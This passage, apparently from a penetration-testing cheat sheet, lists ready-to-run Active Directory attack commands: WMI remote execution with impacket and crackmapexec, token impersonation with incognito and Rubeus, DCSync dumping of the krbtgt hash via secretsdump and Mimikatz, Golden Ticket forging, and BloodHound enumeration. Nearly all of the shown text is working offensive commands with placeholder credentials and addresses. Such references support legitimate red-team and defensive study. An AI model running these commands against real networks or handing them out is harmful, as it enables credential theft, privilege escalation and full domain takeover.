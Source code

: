 ### WMI Execution
```bash
# Using impacket
python3 wmiexec.py domain.com/user:password@10.10.10.10

# Using crackmapexec
crackmapexec wmi 10.10.10.10 -u user -p password -x "whoami"
```

## Privilege Escalation

### Token Impersonation
```powershell
# Using incognito
load incognito
list_tokens -u
impersonate_token "DOMAIN\\Administrator"

# Using Rubeus
Rubeus.exe s4u /user:service /rc4:hash /impersonateuser:Administrator /msdsspn:cifs/target.domain.com
```

### DCSync Attack
```bash
# Using impacket
python3 secretsdump.py domain.com/user:password@10.10.10.10

# Using Mimikatz
mimikatz # lsadump::dcsync /domain:domain.com /user:krbtgt
```

### Golden Ticket
```bash
# Using impacket
python3 ticketer.py -nthash krbtgt_hash -domain-sid domain_sid -domain domain.com Administrator

# Using Mimikatz
mimikatz # kerberos::golden /domain:domain.com /sid:domain_sid /krbtgt:krbtgt_hash /user:Administrator
```

## Advanced Techniques

### BloodHound Enumeration
```bash
# Using SharpHound
SharpHound.exe -c All -d domain.com

# Using BloodHound Python
bloodhound-python -u user -p password -d domain.com -dc 10.10.10.10 -c all
```
